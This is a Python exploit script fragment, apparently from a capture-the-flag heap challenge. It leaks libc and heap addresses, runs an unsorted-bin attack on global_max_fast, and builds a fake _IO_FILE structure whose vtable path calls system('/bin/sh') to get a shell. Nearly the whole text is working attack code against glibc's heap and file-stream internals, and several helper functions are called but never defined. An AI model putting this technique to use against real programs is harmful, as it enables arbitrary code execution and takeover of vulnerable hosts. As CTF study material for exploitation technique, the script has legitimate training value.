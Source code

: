 ```python

def v(idx):
        r.sendlineafter('> ', '4')                 
        r.sendlineafter('> ', str(idx))             
                      
a(0x500, 'A')   #0 for libc leak
a(0x1430, 'a')  #1 for fake fsop + overwrite _IO_list_all (well sized)
a(0x18, 'A')    #2 for avoiding consolidation with top chunk + heap leak

# leak libc
d(0)
v(0)
leak = u64(r.recvuntil('\n', True).ljust(8, b'\x00'))
dbg('leak')
base = leak - 0x3ebca0
dbg('base')
system = base + libc.sym.system
iolistall = base + libc.sym._IO_list_all
globalmaxfast = base + 0x3ed940
lock = globalmaxfast-8

# we choose io_wfile_sync for our vtable function
# qword p[fake + 0x98] -> rdi
# qword p[qword p[fake + 0x98] + 0x20] -> function
vtable = base + 0x3e7d00 - 0x18

# leak heap from key
d(2)
e(2, 'A'*8)
v(2)
r.recvuntil('A'*8)
leak = u64(r.recvuntil('\n', True).ljust(8, b'\x00'))
dbg('leak')
heap = leak - 0x10
dbg('heap')

# overwrite global_max_fast with big num using unsortedbin attack
e(0, flat(0, globalmaxfast-0x10))
a(0x500, 'a') #3

# build fake _IO_file struct
# caution: this will place at heap + 0x770, while _IO_list_all = heap + 0x760.
# we must care about this 0x10 gap
d(1)
payload = b''
payload += flat(0, 0)
payload += flat(0, 1)
payload += flat(0, 0)
payload += flat(1, 0)
payload += flat(0, 0)
payload += flat(0, 0)
payload += flat(1, 0)
payload += flat(0, 0)
payload += flat(0xffffffffffffffff, heap+0x840) 
payload += flat(lock, 0)
payload += flat(0, 0)
payload += flat(0xffffffff, 0)
payload += flat(0, vtable)
payload += b'/bin/sh\x00' # here is heap + 0x840
payload += flat(0, 0, 0, system) # system ptr is at heap + 0x840 + 0x20

a(0x1430, payload) #4
d(4)
```
